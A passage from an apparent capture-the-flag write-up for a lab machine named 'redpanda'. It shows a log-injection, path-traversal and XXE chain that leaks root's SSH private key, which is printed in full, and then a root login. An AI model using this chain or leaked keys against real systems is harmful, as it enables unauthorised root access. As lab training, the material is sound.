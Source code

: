 Next step I downloaded these files in the `/tmp` directory since the group `logs` had read/write privileges.
Last step I modified the contents of `redpanda.log` to the following:

```
420||p||p||/../../../../../../../tmp/jpgpayload.jpg
```

And that's it! I went to the website and entered anything in the search and hit enter, then I went back to the xml file and got the SSH Key:

```xml
</credits>woodenk@redpanda:/tmp$ cat pwn_creds.xml
cat pwn_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../tmp/jpgpayload.jpg</uri>
    <views>2</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>3</totalviews>
</credits>
woodenk@redpanda:/tmp$ 

```

I saved this key and connected to the target machine using this rsa key and got my root flag

```bash
└─$ chmod 600 rootkey

└─$ ssh root@$IP -i rootkey
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

...

Last login: Thu Jun 30 13:17:41 2022
root@redpanda:~# ls
root.txt  run_credits.sh
root@redpanda:~# cat root.txt
*******************************f
root@redpanda:~# 

```

---
